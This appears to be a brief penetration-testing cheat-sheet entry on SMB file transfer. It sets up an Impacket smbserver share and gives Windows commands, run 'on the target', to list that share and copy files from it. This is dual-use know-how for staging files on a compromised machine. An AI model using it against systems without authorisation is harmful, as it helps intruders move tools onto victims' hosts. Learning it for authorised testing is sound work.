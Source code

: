 # SMB Server

> SMB is another convenient file transfer protocol, which is very common amongst Windows environments. You can easily set up an SMB server with Impacket’s smbserver.py program.

```bash
python smbserver.py $SHARENAME /$ROOTDIR
#Doesn't work? try using -smb2support flag:
python smbserver.py -smb2support $SHARENAME /$ROOTDIR

#On the target, you can view the available shares on the SMB server with:
net view \\\$IPADDRESS

#To view the files available in the share, simply use dir:
\\$IPADDRESS\share-name

#To actually download a file, use:
copy \\$IPADRESS\share-name\file out-file
```
